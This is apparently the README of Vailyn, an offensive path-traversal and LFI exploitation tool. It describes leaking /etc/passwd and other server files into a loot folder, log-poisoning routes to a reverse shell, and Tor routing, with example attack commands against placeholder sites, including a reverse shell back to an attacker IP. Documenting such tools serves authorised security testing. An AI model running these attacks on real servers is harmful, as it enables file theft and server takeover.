

<h1 align="center">
  </img><br>
  Vailyn
  <br>
</h1>

<p align="center">
  <a href="https://github.com/VainlyStrain/Vailyn/blob/master/Vailyn">
    <!--&logo=dev.to&logoColor=white"-->
  </a>
  <a href="https://www.python.org/">
    
  </a><br>
  Phased Path Traversal & LFI Attacks
</p>

> **Vailyn 2.0**
>
> Since v2.0, Vailyn has a Qt5 interface. Fire it up with the `--app` argument!

### About

Vailyn is a multi-phased vulnerability analysis and exploitation tool for path traversal/directory climbing vulnerabilities. It is built to make it as performant as possible, and to offer a wide arsenal of filter evasion techniques.

### How does it work?

Vailyn operates in 2 phases. First, it checks if the vulnerability is present. It does so by trying to access /etc/passwd (or a user-specified file), with all of its evasive payloads. Analysing the response, payloads that worked are separated from the others.

Now, the user can choose freely which payloads to use. Only these payloads will be used in the second phase.

The second phase is the exploitation phase. Now, it tries to leak all possible files from the server using a file and a directory dictionary. The search depth and the directory permutation level can be adapted via arguments. Optionally, it can download found files, and save them in its loot folder. Alternatively, it will try to obtain a reverse shell on the system, letting the attacker gain full control over the server.

Right now, it supports multiple attack vectors: injection via query, path, cookie and post data.

### Why the phase separation?

The separation in several phases is done to hugely improve the performance of the tool. In previous versions, every file-directory combination was checked with every payload. This resulted in a huge overhead due to payloads being always used again, despite not working for the current page.

### Installation

Recommended & tested Python versions are 3.7+, but it should work fine with Python 3.5 & Python 3.6, too. To install Vailyn, download the archive from the release tab, or perform

```
$ git clone https://github.com/VainlyStrain/Vailyn
```

Once on your system, you'll need to install the dependencies.

```
$ pip install -r requirements.txt   # --user
```

If you want to use the reverse shell module, you'll need to have `ncat` and `konsole` installed. Package names vary by distribution. On Windows, you'll need to start the listener manually beforehand.

That's it! Fire Vailyn up by moving to its installation directory and performing

```
$ python Vailyn -h
```

### Usage

Vailyn has 3 mandatory arguments: `-v VIC, -a INT and -l FIL PATH`. However, depending on `-a`, more arguments may be required.

```
mandatory:
  -v VIC, --victim VIC  Target to attack, part 1 [pre-payload]
  -a INT, --attack INT  Attack type (int, 1-5)
  -l FIL PATH, --lists FIL PATH      
                        Dictionaries (files and dirs)
additional:
  -p P, --param P       query parameter to use for --attack 1
  -s D, --post D        POST Data (set injection point with INJECT)
  -j A P, --listen A P  Try a reverse shell in Phase 2 (A:IP, P:port)
  -d I J K, --depths I J K  
                        depths (I: phase 1, J: phase 2, K: permutation level)
  -n, --loot            Download found files into the loot folder
  -c C, --cookie C      File containing authentication cookie (if needed)
  -h, --help            show this help menu and exit
  -i F, --check F       File to check for in Phase 1 (df: /etc/passwd)
  -q V, --vic2 V        Attack Target, part 2 [post-payload]
  -t, --tor             Pipe attacks through the Tor anonymity network
  -k T, --timeout T     Request Timeout; stable switch for Arjun
  -m, --nosploit        skip Phase 2 (does not need -l FIL PATH)
  --app                 Start Vailyn's Qt5 interface
  
develop:
  --debug               Display every path tried, even 404s.
  --version             Print program version and exit.
```

Vailyn currently supports 4 attack vectors, and provides a crawler to automate all of them. The attack performed is identified by the `-a INT` argument.

```
INT        attack
----       -------
1          query-based attack  (https://site.com?file=../../../)
2          path-based attack   (https://site.com/../../../)
3          cookie-based attack (will grab the cookies for you)
4          infected post data  (ELEM1=VAL1&ELEM2=../../../)
5          spider automation   fetch + analyze all URLs from site
```

You also must specify a target to attack. This is done via `-v VIC` and `-q V`, where -v is the part before the injection point, and -q the rest.

Example: if the final URL should look like: `https://site.com/download.php?file=<ATTACK>&param2=necessaryvalue`, you can specify `-v https://site.com/download.php` and `-q &param2=necessaryvalue` (and `-p file`, since this is a query attack).

To perform the bruteforce attack in phase 2, you need to specify 2 dictionaries:
* FIL, containing **filenames only** (e.g. index.php)
* PATH, containing **directory names only**. Vailyn will handle directory permutation for you, so you'll need only one directory per line.

If the attacked site is behind a login page, you can supply an authentication cookie via `-c COOKIEFILE`. If you want to attack over Tor, use `--tor`.

#### Phase 1

This is the analysis phase, where working payloads are separated from the others.

By default, `/etc/passwd` is looked up. If the server is not running Linux, you can specify a custom file by `-i FILENAME`. Note that you must **include subdirectories in FILENAME**.
You can modify the lookup depth with the first value of `-d` (default=8).

#### Phase 2

This is the exploitation phase, where Vailyn will try to leak as much files as possible, or gain a reverse shell using various techniques.

The depth of lookup in phase 2 (the maximal number of layers traversed back) is specified by the second value of the `-d` argument. The level of subdirectory permutation is set by the third value of `-d`.

By specifying `-n`, Vailyn will not only display files on the terminal, but also download and save the files into the loot folder.

If you want a verbose output (display every output, not only found files), you can use `--debug`. Note that output gets really messy, this is basically just a debug help.

To gain a reverse shell, you can use the `-j A P` argument, where A is your listening IP, and P the port you want to listen on.

> **WARNING**
>
> The reverse shell module is NOT production-ready yet! The techniques still need polishing & testing.
>
> Also, beware that YOUR IP WILL BE VISIBLE IN THE SERVER LOGS.

The techniques (only work for LFI inclusions):

* `/proc/self/environ inclusion` only works on outdated servers
* `Apache Log Poisoning & inclusion`
* `SSH Log Poisoning` 
* `poisoned mail inclusion`

### False Positive prevention

To distinguish real results from false positives, Vailyn does the following checks:
* check the status code of the response
* check if the response is identical to one taken before attack start: this is useful e.g, when the server returns 200, but ignores the payload input or returns a default page if the file is not found.
* similar to #2, perform an additional check for query GET parameter handling (useful when server returns error that a needed parameter is missing)
* check for empty responses
* check if common error signatures are in the response content
* check if the payload is contained in the response: this is an additional check for the case the server responds 200 for non-existing files, and reflects the payload in a message (like ../../secret not found)
* check if the entire response is contained in the init check response: useful when the server has a default include which disappears in case of 404

### Examples

* Simple Query attack:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -p file` --> `http://site.com/download.php?file=../INJECT`

* Query attack, but I know a file `index.php` exists on same level:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -p file -i index.php -d 1 X X`
This will shorten the duration of Phase 1 very much, since its a targeted attack.

* Simple Path attack:
`$ Vailyn -v "http://site.com/" -a 2 -l dicts/files dicts/dirs` --> `http://site.com/../INJECT`

* Path attack, but I need query parameters and tag:
`$ Vailyn -v "http://site.com/" -a 2 -l dicts/files dicts/dirs -q "?token=X#title"` --> `http://site.com/../INJECT?token=X#title`

* Simple Cookie attack:
`$ Vailyn -v "http://site.com/cookiemonster.php" -a 3 -l dicts/files dicts/dirs`
Will fetch cookies and you can select cookie you want to poison

* POST Attack:
`$ Vailyn -v "http://site.com/download.php" -a 4 -l dicts/files dicts/dirs -s "DATA1=xx&DATA2=INJECT"`
will infect DATA2 with the payload

* Attack, but target is behind login screen:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -c cookie.txt`

* Attack, but I want a reverse shell on port 1337:
`$ Vailyn -v "http://site.com/download.php" -a 1 -l dicts/files dicts/dirs -j MY.IP.IS.XX 1337`
(will start a ncat listener for you if on Unix)

* Full automation in crawler mode:
`$ Vailyn -v "http://root-url.site" -a 5` _you can also specify depths, lookup file here_ 

* Full automation, but Arjun needs `--stable`:
`$ Vailyn -v "http://root-url.site" -a 5 -k ANY`

### Demo

[](https://asciinema.org/a/377385)
[GUI Demonstration (v2.2.1-5)](https://www.youtube.com/watch?v=rFlR_SHk9fc)

### Possible Issues

Found some false positives/negatives (or want to point out other bugs/improvements): please leave an issue!

### Code of Conduct

> Vailyn is provided as an offensive web application audit tool. It has built-in functionalities which can reveal potential vulnerabilities in web applications, which could possibly be exploited maliciously.
>
> **THEREFORE, NEITHER THE AUTHOR NOR THE CONTRIBUTORS ARE RESPONSIBLE FOR ANY MISUSE OR DAMAGE DUE TO THIS TOOLKIT.**
>
> By using this software, the user obliges to follow their local laws, to not attack someone else's system without explicit permission from the owner, or with malicious intend.
>
> In case of an infringement, only the end user who committed it is accountable for their actions.

### Credits & Copyright

> Vailyn: Copyright © <a href="https://github.com/VainlyStrain">VainlyStrain</a>
>
> Arjun:  Copyright © <a href="https://github.com/s0md3v">s0md3v</a>

### Arjun Modifications

Arjun was slightly modified to fix false negatives with HTTP Basic Auth Sites, and to accept session cookies specified by Vailyn arguments.
